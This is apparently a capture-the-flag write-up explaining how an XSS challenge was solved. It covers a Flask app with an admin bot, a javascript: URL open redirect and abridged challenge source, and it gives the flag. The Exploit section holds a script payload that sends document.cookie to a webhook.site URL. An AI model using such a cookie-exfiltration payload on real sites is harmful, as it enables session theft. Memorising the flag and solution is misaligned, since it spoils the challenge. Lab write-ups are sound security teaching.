 ```yaml
---
date: '2025-07-08T00:01:53+05:30'
draft: false
title: 'Xss Xss'
tags:
- web
- xss
- text-injection
- open-redirect
- js-urls
---
```


From Text injection to open redirect using `javascript:` pseudo protocol for unrestricted XSS.

First major web solve since picoCTF.

<!--more-->

## Enumeration

Challenge consists of a flask web server and a html file.

### Routes:

1. `/visit`
Triggers admin bot to visit page in `url`, given that `url` query parameter must start with "http://localhost:5000".

2. `/`
If request coming from `127.0.0.1` (ie, from admin bot), set the flag in the cookie.

### Interesting html

1. HTML stores the `name` queryParam not only in the html, but also in a global variable called `name`
2. Open redirects to `url` queryParam after 3 seconds, if it's length is <= 15.

## Exploit

Since everything in the `name` queryParam is stored in the `name` global variable, and open-redirected to `url` queryParam, we can construct a clever [`javascript:`](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/javascript) url liked `javascript:name`

![samp](images/sample.png)

Here, 
- `url`  = `url=javascript:name`
- `name` = `<script>alert(42)</script>`

Do the same to the admin, by `/visit`. Instead of `alert()`, send document.cookie to `webhooks.site` url.

- `url`  = `javascript:name`
- `name` = `<script>fetch("https://webhook.site/3d4588c3-7895-4491-bcc2-d176e9d84051/"+document.cookie")</script>`

Get flag in webhook

![webhookssite](images/webhookssite.png)

## Flag

`NHNC{javascript:xssed!&xssed!=alert(/whale/)}`

## (Abridged) Source code

app.py:

```py
FLAG = "NHNC{REAL_FLAG}"

@app.route("/visit", methods=["GET"])
def visit():
    url = request.args.get("url")
    assert url is not None

    if not url.startswith("http://localhost:5000/"):
        return "Bad Hacker", 400

    process = subprocess.Popen(
        [ "chromium", url, "--disable-gpu", "--no-sandbox", "--user-agent='admin'", ],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    timer = threading.Timer(20, terminate_process, [process])
    timer.start()

    return "Admin is visiting your page!"

@app.route("/", methods=["GET"])
def main():
    if request.remote_addr == "127.0.0.1":
        resp = make_response(render_template("index.html"))
        resp.set_cookie("flag", FLAG)
        return resp
    return render_template("index.html")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```


Index.html:

```html
...
    <body>
        <div class="neon" id="displayName">───</div>
        <div class="hint">Jumping to the universe ...</div>

        <script>
            function getQueryParam(key) {
                const params = new URLSearchParams(window.location.search);
                return params.get(key) || "";
            }
            const name = getQueryParam("name");
            const targetUrl = getQueryParam("url");
            const display = document.getElementById("displayName");
            display.textContent = name || "Guest";
            setTimeout(() => {
                if (targetUrl && targetUrl.length <= 15) window.location.href = targetUrl;
            }, 3000);
        </script>
    </body>
```

